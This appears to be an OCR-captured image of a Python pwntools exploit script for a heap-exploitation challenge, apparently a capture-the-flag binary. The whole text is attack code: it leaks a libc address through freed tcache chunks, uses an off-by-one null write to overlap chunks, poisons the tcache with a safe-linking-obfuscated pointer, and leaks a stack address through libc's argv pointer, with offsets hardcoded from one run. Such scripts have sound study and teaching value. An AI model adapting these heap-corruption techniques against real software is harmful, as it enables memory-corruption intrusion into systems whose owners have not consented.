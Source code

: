 ```python
for i in range(8):
    create(i,0xf8)
for i in range(7,-1,-1):
    free(i)

create(0,32)
view(0)
r.recvuntil(b'Data: ')
libc.address = unpack(r.recv(6),'all') + 0x726908600000 - 0x726908803c10
log.critical(f'libc.address = {hex(libc.address)}')
create(0,0xf8-32)
for i in range(1,8):
    create(i,0xf8)
create(0,24)
create(0,0xd0-8)  
create(0,0x100-0x30)  

######################################### off-by-one #############################################

target = obfuscate(heap_base+0x100,heap_base)
create(8,0x38)  #### a
offset = 0xca0
address = heap_base + offset
write_into(8,pack(0)+pack(0x60)+pack(address)+pack(address))

create(9,0x28) #### b
create(10,0xf8) #### c
create(11,24)  ################## seperate from top_chunk

write_into(9,b'\x00'*(0x28-8)+pack(0x60))

for i in range(7,0,-1):
    free(i)

free(10) 

create(12,0xd8)
create(13,0x28)
free(13)
free(9)

write_into(12,pack(0)*5+pack(0x31)+pack(target)[:7])

create(13,0x28)

# create(14,0x28)
# view(14)

####################################################################################33
              ######### leaking stack and elf address ##########
libc_argv = libc.address + 0x2046e0
stack_offset = 0x7ffe1ebbf2a8- 0x7ffe1ebbf258-8
print("libc_argv = ",hex(libc_argv))
create(14,0x28)
write_into(14,pack(libc_argv))
create(0,0xf8)
view(14)
r.recvuntil(b'Data: ')
temp = unpack(r.recv(6),'all')
stack_leak  = obfuscate(temp,libc_argv)
log.critical(f'stack_leak = {hex(stack_leak)}')

write_into(14,pack(stack_leak-stack_offset))
```